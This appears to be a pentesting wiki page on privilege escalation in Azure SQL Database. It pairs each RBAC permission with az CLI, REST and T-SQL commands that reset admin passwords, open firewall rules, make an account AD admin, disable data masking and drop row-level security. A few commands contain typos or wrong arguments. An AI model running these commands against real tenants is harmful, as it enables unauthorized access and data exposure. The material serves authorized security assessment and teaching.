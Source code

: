 # Az - SQL Database Privesc

{{#include ../../../banners/hacktricks-training.md}}

## SQL Database Privesc

For more information about SQL Database check:

{{#ref}}
../az-services/az-sql.md
{{#endref}}

### `Microsoft.Sql/servers/read` && `Microsoft.Sql/servers/write`

With these permissions, a user can perform privilege escalation by updating or creating Azure SQL servers and modifying critical configurations, including administrative credentials. This permission allows the user to update server properties, including the SQL server admin password, enabling unauthorized access or control over the server. They can also create new servers, potentially introducing shadow infrastructure for malicious purposes. This becomes particularly critical in environments where "Microsoft Entra Authentication Only" is disabled, as they can exploit SQL-based authentication to gain unrestricted access.

```bash
# Change the server password
az sql server update \
  --name <server_name> \
  --resource-group <resource_group_name> \
  --admin-password <new_password>

# Create a new server
az sql server create \
  --name <new_server_name> \
  --resource-group <resource_group_name> \
  --location <location> \
  --admin-user <admin_username> \
  --admin-password <admin_passwor d>
```

Additionally it is necesary to have the public access enabled if you want to access from a non private endpoint, to enable it:

```bash
az sql server update \
  --name <server-name> \
  --resource-group <resource-group> \
  --enable-public-network true
```

Furthermore, with the permissions you can enalbe the assign identity, an opertate with the managed identity attached to the server. For example here with a managed identity that can access Azure Storage:

```bash
az sql server update \
  --name <server-name> \
  --resource-group <resource-group> \
    --assign_identity
```
```sql 
CREATE DATABASE SCOPED CREDENTIAL [ManagedIdentityCredential]
WITH IDENTITY = 'Managed Identity';
GO


CREATE EXTERNAL DATA SOURCE ManagedIdentity
WITH (
    TYPE = BLOB_STORAGE,
    LOCATION = 'https://<storage-account>.blob.core.windows.net/<container>',
    CREDENTIAL = ManagedIdentityCredential
);
GO

SELECT *
FROM OPENROWSET(
    BULK 'message.txt',
    DATA_SOURCE = 'ManagedIdentity',
    SINGLE_CLOB
) AS DataFile;
GO
```

### `Microsoft.Sql/servers/firewallRules/write`

An attacker can manipulate firewall rules on Azure SQL servers to allow unauthorized access. This can be exploited to open up the server to specific IP addresses or entire IP ranges, including public IPs, enabling access for malicious actors. This post-exploitation activity can be used to bypass existing network security controls, establish persistence, or facilitate lateral movement within the environment by exposing sensitive resources.

```bash
# Create Firewall Rule
az sql server firewall-rule create \
    --name <new-firewall-rule-name> \
    --server <server-name> \
    --resource-group <resource-group> \
    --start-ip-address <start-ip-address> \
    --end-ip-address <end-ip-address>

# Update Firewall Rule
az sql server firewall-rule update \
    --name <firewall-rule-name> \
    --server <server-name> \
    --resource-group <resource-group> \
    --start-ip-address <new-start-ip-address> \
    --end-ip-address <new-end-ip-address>
```

Additionally, `Microsoft.Sql/servers/outboundFirewallRules/delete` permission lets you delete a Firewall Rule.
NOTE: It is necesary to have the public access enabled

### `Microsoft.Sql/servers/ipv6FirewallRules/write`

With this permission, you can create, modify, or delete IPv6 firewall rules on an Azure SQL Server. This could enable an attacker or authorized user to bypass existing network security configurations and gain unauthorized access to the server. By adding a rule that allows traffic from any IPv6 address, the attacker could open the server to external access."

```bash
az sql server firewall-rule create \
  --server <server_name> \
  --resource-group <resource_group_name> \
  --name <rule_name> \
  --start-ip-address <start_ipv6_address> \
  --end-ip-address <end_ipv6_address>
```

Additionally, `Microsoft.Sql/servers/ipv6FirewallRules/delete` permission lets you delete a Firewall Rule.
NOTE: It is necesary to have the public access enabled

### `Microsoft.Sql/servers/administrators/write` && `Microsoft.Sql/servers/administrators/read`

With this permissions you can privesc in an Azure SQL Server environment accessing to SQL databases and retrieven critical information. Using the the command below, an attacker or authorized user can set themselves or another account as the Azure AD administrator. If "Microsoft Entra Authentication Only" is enabled you are albe to access the server and its instances. Here's the command to set the Azure AD administrator for an SQL server:

```bash
az sql server ad-admin create \
  --server <server_name> \
  --resource-group <resource_group_name> \
  --display-name <admin_display_name> \
  --object-id <azure_subscribtion_id>
```

### `Microsoft.Sql/servers/azureADOnlyAuthentications/write` && `Microsoft.Sql/servers/azureADOnlyAuthentications/read`

With these permissions, you can configure and enforce "Microsoft Entra Authentication Only" on an Azure SQL Server, which could facilitate privilege escalation in certain scenarios. An attacker or an authorized user with these permissions can enable or disable Azure AD-only authentication.

```bash
#Enable
az sql server azure-ad-only-auth enable \
  --server <server_name> \
  --resource-group <resource_group_name>

#Disable
az sql server azure-ad-only-auth disable \
  --server <server_name> \
  --resource-group <resource_group_name>
```

### Microsoft.Sql/servers/databases/dataMaskingPolicies/write
Modify (or disable) the data masking policies on your SQL databases.

```bash
az rest --method put \
  --uri "https://management.azure.com/subscriptions/<your-subscription-id>/resourceGroups/<your-resource-group>/providers/Microsoft.Sql/servers/<your-server>/databases/<your-database>/dataMaskingPolicies/Default?api-version=2021-11-01" \
  --body '{
    "properties": {
      "dataMaskingState": "Disable"
    }
  }'
```

### Remove Row Level Security
If you loggin as admin, you can remove the policies of the admin itself and other users.

```sql
DROP SECURITY POLICY [Name_of_policy];
```


{{#include ../../../banners/hacktricks-training.md}}



